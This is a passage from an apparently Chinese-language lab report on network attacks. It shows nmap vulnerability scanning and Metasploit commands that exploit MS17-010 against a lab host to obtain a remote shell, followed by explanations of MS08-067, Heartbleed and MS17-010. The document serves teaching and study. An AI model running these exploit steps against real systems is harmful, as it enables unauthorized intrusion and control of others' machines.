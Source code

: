 ![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_13-37-03.png)

3. 使用 nmap -sV -sT --script=vuln -p 445 192.168.132.134探测漏洞

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_13-43-26.png)

4. MSF终端渗透攻击

search ms17-010

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_12-48-13.png)

use 0

show options查看参数和载荷，参数只需要设置一个rhost目标主机ip

set rhosts 192.168.132.134

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_13-45-12.png)

exploit

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_13-47-27.png)

输入shell，获得靶机控制权

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_13-47-40.png)

测试，输入dir，获取靶机目录信息

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_13-48-26.png)

## 分析所测试的攻击的原理或机制

### MS08-067

1. **漏洞触发**：MS08-067漏洞是通过MSRPC over SMB通道调用Server程序中的NetPathCanonicalize函数时触发的。这个函数在远程访问其他主机时，会调用NetpwPathCanonicalize函数对远程访问的路径进行规范化。
2. **缓冲区溢出**：在NetpwPathCanonicalize函数中，由于逻辑错误，当处理包含特定模式（如“/../../”）的路径字符串时，会发生栈缓冲区内存错误（溢出）。这种溢出允许攻击者覆盖函数返回地址，从而控制执行流程。
3. **远程代码执行**：通过精心设计的输入路径，攻击者可以构造恶意数据包，发送到受害者主机的445端口，导致栈缓冲区溢出并执行任意代码。这可能包括安装后门、窃取信息或进一步传播蠕虫病毒。

### Heartbleed

1. **漏洞概述**：Heartbleed漏洞是由于OpenSSL库在实现TLS和DTLS的心跳处理逻辑时，没有检测心跳包中的长度字段是否和后续的数据字段相符合。攻击者可以利用这一点，构造异常的数据包，来获取心跳数据所在的内存区域的后续数据。
2. **具体过程**：当攻击者向受影响的服务器发送一个恶意的心跳请求时，服务器会分配一块内存用于存储心跳响应。由于心跳请求的长度超过实际有效数据的长度，服务器会将内存中的敏感信息连同心跳响应一起返回给攻击者。这样，攻击者就可以从返回的数据中提取敏感信息，如私钥、用户名和密码等

### MS17-010

1. **漏洞概述**：MS17-010漏洞是由于Windows系统的SMBv1服务中的缓冲区溢出导致的。这个漏洞允许攻击者通过TCP的445端口远程执行恶意代码，控制受感染的计算机。
2. **利用方式**：攻击者可以通过构造特定的恶意数据包，发送到受害者主机的445端口，导致栈缓冲区溢出并执行任意代码。这种溢出允许攻击者在未经身份验证的情况下，远程控制目标系统。
3. **影响范围**：该漏洞主要影响Windows系统中的SMBv1服务，包括但不限于Windows NT、Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8等版本。
